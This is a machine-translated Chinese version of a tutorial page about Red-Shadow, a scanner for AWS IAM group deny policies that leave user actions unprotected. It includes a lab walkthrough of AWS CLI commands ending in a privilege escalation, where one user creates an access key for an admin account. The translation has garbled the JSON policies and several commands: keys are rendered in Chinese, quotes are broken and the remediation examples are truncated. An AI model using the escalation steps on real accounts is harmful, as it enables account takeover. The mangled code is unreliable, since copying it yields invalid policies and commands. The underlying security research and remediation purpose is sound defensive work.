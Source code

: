 # 红色阴影:Lightspin AWS IAM 漏洞扫描器

> 原文：<https://kalilinuxtutorials.com/red-shadow/>

[![Red-Shadow : Lightspin AWS IAM Vulnerability Scanner](img/f8eb3c8d6044d988356564c7bf23d54d.png "Red-Shadow : Lightspin AWS IAM Vulnerability Scanner")](https://1.bp.blogspot.com/-8qXFS2ULlYY/YOAnO4wqpuI/AAAAAAAAJzs/uTwdSwkUOqEoiZIpQEngUoubEK6mOd3xACLcBGAsYHQ/s728/red-shadow%2B%25281%2529.png)

**红影**是 Lightspin AWS IAM 漏洞扫描器的工具。

根据 Lightspin 的安全研究团队发现的错误配置的拒绝策略，扫描 AWS IAM 配置中的影子管理员，这些策略不会影响组中的用户。

该工具检测以下 IAM 对象中的错误配置:

*   **托管策略**
*   **用户内联策略**
*   **分组内联策略**
*   **角色内联策略**

**研究总结**

应用于组的拒绝策略的 AWS IAM 评估逻辑的工作方式与大多数安全工程师可能习惯的其他授权机制不同。

假设具有组资源的策略具有明确的拒绝。在这种情况下，这将只影响组操作，而不会影响用户操作，例如，如果组织假设该过程与活动目录相同，则会导致配置错误和漏洞。

易受攻击的 json 策略示例:

**{
"版本":" 2012-10-17 "，
"声明":[
{
" Sid ":" protectmanagersbydenie "，
"效果":" Deny "，
"动作":" * "，
"资源":" arn:aws:iam::123456789999:组/经理"
}
]
}**

在本例中，该策略应该拒绝附加了该策略的用户、组或角色对名为 managers 的组执行的任何 iam 操作。

事实是，像`**iam:ChangePassword**`这样简单的 IAM 操作会起作用，因为拒绝策略是无效的。

**检测**

AWS IAM 明确区分了用户对象操作和组对象操作。

以下列表包括该工具在影响组的拒绝策略中扫描的用户对象操作(除通配符之外。

**AWS _ user _ actions =[【iam:create user】、
【iam:getuser】、
【iam:update user】、
【iam:deleted user】、
【iam:getuser policy】、
【iam:putuser policy】、
【iam:deleteuser policy】、
iam:listuser policy**

上面提到的许多用户对象操作很容易导致权限提升或危及帐户安全，例如重置管理员密码、停用根帐户 MFA 等等。

**要求**

红影是用 Python 3 和 Boto3 构建的。

该工具需要:

*   [IAM 用户，在操作系统环境中具有访问密钥](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-envvars.html)
*   [IAM 用户运行扫描仪的足够权限](https://github.com/lightspin-tech/red-shadow/blob/main/red-shadow-policy.json)
*   安装了 Python 3 和 pip3

**安装**

**sudo git 克隆 https://github.com/lightspin-tech/red-shadow.git
CD 红影
pip 3 install-r requirements . txt**

**用途**

**python3 red-shadow.py**

**分析结果**

结果会发现任何容易在 AWS 中绕过授权的 IAM 对象。

结果输出示例:

**++正在启动 red-shadow++
+++AWS IAM 漏洞扫描器
++ Red Shadow 根据错误配置的拒绝策略扫描 AWS IAM 中的影子管理员不影响组中的用户
步骤 1:在托管策略中搜索 IAM 组错误配置
在 arn:AWS:iam::123456789999:policy/protect managers
进度:|██████████████████████████████████████████████████| 100.0%完成
步骤 2:搜索 iam 组错误配置 100.0%完成
步骤 3:在组内联策略中搜索 IAM 组错误配置
进度:|██████████████████████████████████████████████████| 100.0%完成
步骤 4:在角色内联策略中搜索 IAM 组错误配置
进度:|██████████████████████████████████████████████████| 100.0%完成
完成**

在这个控制台输出中，我们可以看到我们的 ProtectManagers deny 策略是无效的，容易受到攻击，例如上面提到的特权提升。

**模拟&剥削**

要验证 IAM 漏洞并运行攻击，您可以运行以下流程:

*   `**aws iam create-group --group-name managers**`
*   `**aws iam attach-group-policy --group-name managers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess**`
*   `**aws iam create-user --user-name JohnAdmin**`
*   `**aws iam add-user-to-group --user-name JohnAdmin --group-name managers**`
*   使用以下内容创建一个 policy.json 文件(替换帐户 id):

**{
"版本":" 2012-10-17 "，
"声明":[
{
" Sid ":" protectmanagersbydenie "，
"效果":" Deny "，
"Action": "* "，
" Resource ":" arn:AWS:iam::123456789999:group/manager "
}
]
}**

*   **T2`aws iam create-policy --policy-name ProtectManagers --policy-document file://policy.json`**
*   **T2`aws iam create-group --group-name backend-dev`**
*   **T2`aws iam create-user --user-name BobAttacker`**
*   **T2`aws iam add-user-to-group --user-name BobAttacker --group-name backend-dev`**
*   **T2`aws iam attach-group-policy --group-name backend-dev --policy-arn arn:aws:iam::123456789999:policy/ProtectManagers`**
*   创建一个策略，允许用户在 policy_iam.json 文件中为后端开发组创建访问密钥:

**{
"Version": "2012-10-17 "，
" Statement ":[
{
" Sid ":" visual editor 0 "，
"Effect": "Allow "，
" Action ":" iam:CreateAccessKey "，
" Resource ":" * "
}
]
}**

*   **T2`aws iam create-policy --policy-name devCreateAccessKeys --policy-document file://policy_iam.json`**
*   **T2`aws iam attach-group-policy --group-name backend-dev --policy-arn arn:aws:iam::123456789999:policy/devCreateAccessKeys`**
*   使用 **`aws iam list-attached-group-policies --group backend-dev`** 验证我们的配置
*   **T2`aws iam create-access-key --user-name BobAttacker`**
*   在 aws 配置文件(locan env)中配置新的访问密钥和密码
*   现在，用户 BobAttacker 可以为所有资源创建访问密钥，但是对 managers 组有明确的 deny 权限。

**让我们利用以下漏洞:**

**AWS iam create-access-key–用户名 John admin–个人资料 bob 攻击者**

**权限提升完成！**

**补救**

一旦发现策略易受绕过授权的攻击，有两种可能的方法来补救漏洞和修复策略:

**选项 1:** 在资源域中定义所有相关用户，而不是组，以避免无效的 iam 动作，并拒绝所有组动作，如下例:

**{
"Version": "2012-10-17 "，
" Statement ":[
{
" Sid ":" denyspecificseractions "，
"Effect": "Deny "，
" Action ":[
" iam:CreateLoginProfile "，
"iam:ChangePassword "，
"iam:CreateAccessKey"
]，
" Resource ":[** 

**选项 2:** 在适当位置使用 iam:ResourceTag 的策略中的条件，如下例所示:

**{
"Version": "2012-10-17 "，
" Statement ":[
{
" Sid ":" visual editor 0 "，
"Effect": "Deny "，
" Action ":[
" iam:CreateLoginProfile "，
"iam:ChangePassword "，
"iam:CreateAccessKey"
，
【Resource】:" * "，** 

[**Download**](https://github.com/lightspin-tech/red-shadow)